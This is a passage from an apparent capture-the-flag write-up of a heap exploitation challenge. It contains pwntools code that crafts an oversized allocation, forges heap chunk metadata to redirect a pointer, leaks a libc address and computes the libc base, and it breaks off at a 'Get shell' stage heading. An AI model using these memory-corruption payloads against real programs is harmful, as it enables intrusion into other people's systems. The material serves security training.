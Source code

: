 ```python3
>>> 0x55f9c752d4d0 + 0x30 + 0x90 + 0x20
0x55f9c752d5b0     # Poiting to metadata

>>> 0x55f9c752d4d0 + 0x30 + 0x90 + 0x20 + 0x10
0x55f9c752d5c0     # Poiting to content of chunk which has libc address
```

The offset from heap base to that heap address `0x55f9c752d5c0` is `0x5c0`. Our goal now is to malloc `new_data->buffer` with the same chunk with the same size `0x40` as above so that we will change the `result_str` of `obj 1` into `heap_base + 0x5c0`:

```python
payload = b'+'.ljust(4, b'\0')
payload += p32(0x20000008)       # size
payload += p32(7)           # arg1
payload += p32(8)           # arg2
payload = payload.ljust(0x80, b'A')
p.send(payload)

payload = flat(
    # new_data->buffer
    b'A'*0x48,

    # result_str
    0x91,
    b'B'*0x88,

    # obj
    0x21,
    heap_base+0x5c0
    )
p.sendafter(b'feedback: ', payload)
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - 0x219ce0
log.info("Libc base: " + hex(libc.address))
```

![libc-leak.png](images/libc-leak.png)

Very good! Let's finish our exploitation!

### Stage 3: Get shell

```diff
Always take advantage of executable function in heap!
```
